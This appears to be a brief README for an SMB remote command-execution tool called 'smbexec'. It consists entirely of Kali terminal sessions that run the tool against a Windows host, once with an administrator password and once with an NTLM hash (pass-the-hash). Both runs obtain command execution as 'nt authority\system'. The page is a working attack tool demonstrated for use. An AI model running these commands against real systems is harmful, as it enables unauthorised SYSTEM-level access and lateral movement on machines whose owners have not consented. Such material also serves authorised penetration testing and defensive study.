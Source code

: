 # smbexec

┌──(root㉿kali)-[~]
└─# python3 main.py                                                                            
help: smbexec.py <username> <password/hash> <target_ip> <command> [yes/no](password is hash type)
                                                                                                                                                                                                           
┌──(root㉿kali)-[~]
└─# python3 main.py administrator 123456 192.168.80.122 whoami                              
nt authority\system

                                                                                                                                                                                                           
┌──(root㉿kali)-[~]
└─# python3 main.py administrator 32ed87bdb5fdc5e9cba88547376818d4 192.168.80.122 'whoami' yes 
nt authority\system
